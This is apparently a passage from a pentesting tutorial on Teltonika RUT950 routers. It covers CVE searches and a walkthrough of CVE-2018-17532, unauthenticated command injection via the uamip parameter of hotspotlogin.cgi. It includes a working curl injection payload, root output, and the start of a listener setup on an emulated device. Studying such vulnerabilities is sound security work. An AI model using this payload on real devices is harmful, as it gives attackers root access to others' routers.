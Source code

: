 - Searching for CVEs : https://www.opencve.io/cve?vendor=teltonika&product=rut950_firmware

![Pasted image 20220724222320](https://user-images.githubusercontent.com/72421091/180689081-761aee44-817e-4404-b914-0943b0140ebe.png)


- POCs : we can search on github also for same research about the device. Sometimes you can find some research and tools that can help with the pentesting documentation.

- Finiding your own exploit / Bug bounty : You can go for the ultimate win by analysing the device and try find exploits. As an example we can use burp and start exploring the web interface to garther more information and start analyzing / fuzzing. The firmware can help also in this case, we can look at web files and reverse used binaires also. Here is an example of an exploit found by analyzing a binary in a TP link router : https://www.youtube.com/watch?v=zjafMP7EgEA



# CVE-2018-17532 : Teltonika RUT9XX Unauthenticated OS Command Injection


Teltonika RUT9XX routers with firmware before 00.04.233 are prone to multiple unauthenticated OS command injection vulnerabilities in autologin.cgi and hotspotlogin.cgi due to insufficient user input sanitization. This allows remote attackers to execute arbitrary commands with root privileges.

We can see more details here : https://www.opencve.io/cve/CVE-2018-17532

Full explanation here : https://github.com/sbaresearch/advisories/tree/public/2018/SBA-ADV-20180319-01_Teltonika_OS_Command_Injection

With the "hotspotlogin.cgi" file, he found that there is no proper sanitization for user input in the uamip parameter that is loaded in an os.execute :skull: 

## POC 

An attacker can exploit this vulnerability by manipulating the `uamip` parameter:
```bash
curl -v -o /dev/null "http://$IP/cgi-bin/hotspotlogin.cgi" -d 'send=1&uamip="; id >/tmp/test #'
```

The device executes the commands with root privileges:

```bash
cat /tmp/test
uid=0(root) gid=0(root)
```


Let's use the exploit with our emulated device 

The exploit is blind, so we need something to see the output without accessing the router shell.

I'll use a webserver https://pypi.org/project/uploadserver/ 

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
